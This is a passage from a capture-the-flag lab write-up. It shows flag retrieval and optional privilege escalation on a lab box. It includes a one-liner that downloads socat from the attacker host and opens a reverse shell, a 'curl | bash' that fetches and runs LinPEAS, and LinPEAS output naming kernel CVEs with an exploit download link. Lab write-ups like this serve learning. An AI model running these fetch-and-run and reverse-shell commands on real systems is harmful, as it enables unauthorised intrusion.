 **flag.txt:**
```
user@774c7a0d6226:/usr/src/app$ cat /usr/src/app/flag.txt
flag{Redacted}
```

## Privilege Escalation (Optional)

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

user@774c7a0d6226:/usr/src/app$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/11/03 06:02:14 socat[16747] N opening character device "/dev/pts/2" for reading and writing
2022/11/03 06:02:14 socat[16747] N listening on AF=2 0.0.0.0:4444
                                                                 2022/11/03 06:02:23 socat[16747] N accepting connection from AF=2 10.10.15.9:56144 on AF=2 10.9.0.253:4444
                                                                2022/11/03 06:02:23 socat[16747] N starting data transfer loop with FDs [5,5] and [7,7]
                                            user@774c7a0d6226:/usr/src/app$ 
user@774c7a0d6226:/usr/src/app$ stty rows 23 columns 107
user@774c7a0d6226:/usr/src/app$ export TERM=xterm-256color
user@774c7a0d6226:/usr/src/app$ ^C
user@774c7a0d6226:/usr/src/app$ 
```

**I tried to find all the low hanging fruits except kernel exploit, like SUID sticky bit binaries, sudo permission, etc. But still no dice. So I'll run [LinPEAS](https://github.com/carlospolop/PEASS-ng) to find anything worth wild.**

**LinPEAS:**
```
┌──(root🌸siunam)-[/opt/PEAS]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

user@774c7a0d6226:/usr/src/app$ curl -s http://10.9.0.253/linpeas.sh | bash
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: less probable
   Tags: ubuntu=(20.04|21.04),debian=11
   Download URL: https://haxx.in/files/dirtypipez.c
[...]
```
